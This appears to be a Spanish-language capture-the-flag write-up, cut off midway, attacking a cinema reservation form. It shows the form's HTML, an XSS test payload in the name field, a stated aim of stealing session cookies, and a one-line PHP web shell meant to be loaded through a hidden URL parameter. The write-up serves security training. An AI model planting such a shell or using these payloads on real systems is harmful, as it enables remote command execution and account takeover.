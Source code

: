 Tenemos este fragmento de codigo **HTML**
```html
<!-- Popup para reserva -->
        <div id="popup" class="popup">
            <div class="popup-content">
                <button id="close-popup" class="close-popup">X</button>
                <h2>Confirmar Reserva</h2>
                <form action="[reservation.php](view-source:http://cinema.dl/reservation.php)" method="POST">
                    <label for="name">Nombre:</label>
                    <input type="text" id="name" name="name" required>

                    <label for="email">Correo electrónico:</label>
                    <input type="email" id="email" name="email" required>

                    <label for="phone">Teléfono:</label>
                    <input type="tel" id="phone" name="phone" required>

                    <!-- Campo oculto para URL maliciosa -->
                    <input type="hidden" id="problem_url" name="problem_url" value="">

                    <button type="submit">Confirmar</button>
                </form>
            </div>
        </div>
```

###### Confirmar Reservas:
En este formulario para confirmar las reservar es vulnerable a **XSS** pero para que pueda pensar en un ataque donde puedamor robar la cookie de sesion del usaurio que este logueado necesitamos interaccion con el usuario, 
Campo: **Nombre** es vulnerable
```bash
<script>alert("hacked");</script>
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora si intentamos **confirmarReservas** ahora tendremos un nuevo campo que nos permite ingresar una **URL**:
Sabiendo que apunta a un parametro: **problem_url** Nos aprovecharemos de esto para cargar un archivo malicioso:
Primero creamos un archivo malicioso bajo el nombre **cmd.php** que nos permite realizar una llamada a nivel de sistema para ejeucutar comandos:
```php
<?php
  system($_GET["cmd"]);
?>
```
